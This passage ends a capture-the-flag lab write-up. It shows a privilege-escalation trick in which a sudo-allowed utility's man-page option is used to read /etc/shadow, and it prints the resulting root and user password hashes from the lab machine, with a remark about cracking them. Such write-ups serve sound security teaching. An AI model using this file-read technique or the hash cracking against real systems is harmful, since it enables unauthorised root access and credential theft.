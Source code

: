 ## Alternative way to attempt privesc

Also, we can read any privileged file in this case with "man", like this:

	$ sudo /home/anansi/bin/anansi_util manual /etc/shadow
	/usr/bin/man: manual-/etc/shadow: No such file or directory
	/usr/bin/man: manual_/etc/shadow: No such file or directory
	No manual entry for manual
	<standard input>:1: warning [p 1, 0.0i]: cannot adjust line
	<standard input>:1: warning [p 1, 0.2i]: cannot adjust line
	<standard input>:22: warning [p 1, 2.2i]: cannot adjust line
	<standard input>:23: warning [p 1, 2.3i]: cannot adjust line
	<standard input>:23: warning [p 1, 2.5i]: cannot adjust line
	<standard input>:23: warning [p 1, 2.7i]: cannot adjust line
	<standard input>:24: warning [p 1, 3.0i]: cannot adjust line
	<standard input>:24: warning [p 1, 3.2i]: can't break line
	root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdO‐
	hg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZa‐
	Dioh0:15768:0:99999:7:::              daemon:*:15768:0:99999:7:::
	bin:*:15768:0:99999:7:::                 sys:*:15768:0:99999:7:::
	sync:*:15768:0:99999:7:::              games:*:15768:0:99999:7:::
	man:*:15768:0:99999:7:::                  lp:*:15768:0:99999:7:::
	mail:*:15768:0:99999:7:::               news:*:15768:0:99999:7:::
	uucp:*:15768:0:99999:7:::   proxy:*:15768:0:99999:7:::    www‐da‐
	ta:*:15768:0:99999:7:::               backup:*:15768:0:99999:7:::
	list:*:15768:0:99999:7:::                irc:*:15768:0:99999:7:::
	gnats:*:15768:0:99999:7:::    nobody:*:15768:0:99999:7:::   libu‐
	uid:!:15768:0:99999:7:::   syslog:*:15768:0:99999:7:::   message‐
	bus:*:15768:0:99999:7:::         reynard:$6$h54J.qxd$yL5md3J4dON‐
	wNl.36iA.mkcabQqRMmeZ0VFKxIVpX‐
	eNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::
	anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xv‐
	Ja3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1ly‐
	DGIPE1:15768:0:99999:7:::    puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEm‐
	bIcBF9Oi7q2eAi0TMMqO‐
	hg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::

A little bit messy, but with a proper tty shell we should be able to retrieve those hashes and crack them!

That's it for this room, we achieved full control of the system, and learned a couple cool techniques along the way.

**There was no flag to secure in this room.**

[^1]: https://github.com/dievus/threader3000
